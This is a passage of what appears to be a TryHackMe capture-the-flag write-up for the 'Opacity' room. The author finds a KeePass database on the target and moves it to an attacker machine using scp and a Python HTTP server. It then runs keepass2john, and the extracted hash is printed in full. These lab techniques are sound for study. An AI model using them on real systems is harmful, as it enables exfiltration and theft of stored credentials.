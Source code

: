 Then, I found out a potential file located in `/opt`:

```tsx
$ ls -la /opt/
total 12
drwxr-xr-x  2 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
-rwxrwxr-x  1 sysadmin sysadmin 1566 Jul  8  2022 dataset.kdbx
```

For further analyzing, transferring the file to the local machine is an intelligent choice:

```tsx
$ scp dataset.kdbx kali@10.8.97.213:/home/kali/TryHackMe/Opacity/
Could not create directory '/var/www/.ssh'.
Host key verification failed.
lost connection
```

But I got trouble with the `scp` command, therefore, I check whether the `python` is available on the system:

```tsx
$ ls -l /usr/bin | grep "python"
lrwxrwxrwx 1 root   root          23 Nov 14  2022 pdb3.8 -> ../lib/python3.8/pdb.py
lrwxrwxrwx 1 root   root          31 Mar 13  2020 py3versions -> ../share/python3/py3versions.py
lrwxrwxrwx 1 root   root           9 Mar 13  2020 python3 -> python3.8
-rwxr-xr-x 1 root   root     5494584 Nov 14  2022 python3.8

$ python3 -m http.server 9999
```

Yes it is! Let’s transfer the file!

On local machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Opacity]
└─$ wget http://10.10.138.165:9999/dataset.kdbx
--2023-08-11 04:29:35--  http://10.10.138.165:9999/dataset.kdbx
Connecting to 10.10.138.165:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1566 (1.5K) [application/octet-stream]
Saving to: ‘dataset.kdbx’

dataset.kdbx                 100%[==============================================>]   1.53K  --.-KB/s    in 0s      

2023-08-11 04:29:36 (149 MB/s) - ‘dataset.kdbx’ saved [1566/1566]
```

To open the and read the content inside the `KDBX` file, you will need a password! To solve this, I use `keepass2john` to get the hash inside the file which would be cracked to the password in plaintext:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Opacity]
└─$ file dataset.kdbx 
dataset.kdbx: Keepass password database 2.x KDBX

┌──(kali㉿kali)-[~/TryHackMe/Opacity]
└─$ keepass2john dataset.kdbx 
dataset:$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
```
